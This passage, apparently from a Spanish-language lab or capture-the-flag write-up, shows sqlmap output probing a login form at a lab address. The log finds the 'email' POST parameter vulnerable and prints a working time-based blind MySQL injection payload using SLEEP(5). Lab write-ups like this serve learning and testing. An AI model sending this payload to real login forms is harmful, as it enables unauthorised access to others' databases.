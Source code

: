 ```bash
[18:56:44] [WARNING] heuristic (basic) test shows that POST parameter 'email' might not be injectable
[18:56:45] [INFO] testing for SQL injection on POST parameter 'email'
[18:56:45] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[18:56:46] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[18:56:46] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[18:56:46] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[18:56:47] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[18:56:48] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[18:56:48] [INFO] testing 'Generic inline queries'
[18:56:48] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[18:56:48] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[18:56:49] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[18:56:49] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[18:57:00] [INFO] POST parameter 'email' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[18:57:00] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[18:57:00] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[18:57:00] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[18:57:00] [INFO] target URL appears to have 4 columns in query
got a refresh intent (redirect like response common to login pages) to '/profile'. Do you want to apply it from now on? [Y/n] Y
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[18:57:06] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[18:57:08] [INFO] target URL appears to be UNION injectable with 4 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[18:57:14] [INFO] checking if the injection point on POST parameter 'email' is a false positive
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 148 HTTP(s) requests:
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test1@test.com' AND (SELECT 2081 FROM (SELECT(SLEEP(5)))LEKh) AND 'Jmin'='Jmin&password=test123
---
[18:57:29] [INFO] the back-end DBMS is MySQL
[18:57:29] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
back-end DBMS: MySQL >= 5.0.12
[18:57:30] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.11.130'

[*] ending @ 18:57:30 /2024-10-14/
```
Encontró que el campo **email** es vulnerable a las **inyecciones SQL**.
